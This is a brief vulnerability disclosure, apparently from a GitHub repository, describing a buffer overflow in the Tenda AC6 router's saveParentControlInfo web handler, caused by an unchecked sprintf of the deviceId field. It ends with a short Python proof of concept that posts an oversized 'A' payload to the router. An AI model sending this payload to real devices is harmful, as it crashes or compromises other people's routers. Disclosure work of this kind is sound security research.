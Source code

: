 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10/5.png)

get value from deviceName ,then call set_device_name

![](../Tenda_AC10/6.png)

if deviceName and deviceId are are not null,set_device_name send to mac_addr, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'deviceName': '1', 'deviceId': payload,'time':'1'})
``` 

